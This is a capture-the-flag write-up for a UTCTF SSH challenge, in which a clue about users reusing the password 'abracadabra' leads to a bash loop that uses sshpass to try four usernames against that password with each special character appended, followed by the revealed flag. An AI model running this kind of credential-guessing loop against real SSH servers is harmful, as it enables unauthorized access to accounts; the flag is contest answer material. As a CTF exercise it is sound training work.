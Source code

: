 #### Challenge:

We've gathered a lot of information at this point, let get access through ssh. (ignore port 22, use 8822)

(Use of brute force is permitted for this problem, but please set the wait time in hydra so you don't overwhelm the server)

By Rob H (@Rob H on discord)

`betta.utctf.live:8822`

---

#### Solution:

- based on the clue from previous challenge we will try out different user/password combinations
    ```
    I don't understand the fasination with the magic phrase "abracadabra", but too many people are using them as passwords. 

    Crystal Ball
    Wade Coldwater
    Jay Walker
    Holly Wood

    Can you please reach out to them and get them to change thier passwords or at least get them append a special character? 
    ```

```bash
for user in 'wcoldwater' 'jwalker' 'cball' 'hwood'; do
    for pass in 'abracadabra' 'abracadabra~' 'abracadabra`' 'abracadabra!' 'abracadabra@' 'abracadabra#' 'abracadabra$' 'abracadabra%' 'abracadabra^' 'abracadabra&' 'abracadabra*' 'abracadabra(' 'abracadabra)' 'abracadabra-' 'abracadabra_' 'abracadabra+' 'abracadabra=' 'abracadabra{' 'abracadabra}' 'abracadabra[' 'abracadabra]' 'abracadabra|' 'abracadabra\\' 'abracadabra/' 'abracadabra:' 'abracadabra;' 'abracadabra"' "abracadabra'" 'abracadabra<' 'abracadabra>' 'abracadabra,' 'abracadabra.' 'abracadabra?'; do
        echo -n "${1}:${pass} -> "
        sshpass -p "${pass}" ssh -p 8822 ${user}@betta.utctf.live 
    done
done
```

---

<details><summary>FLAG:</summary>

```
utctf{cust0m3d-lsts-rule!}
```

</details>
<br/>
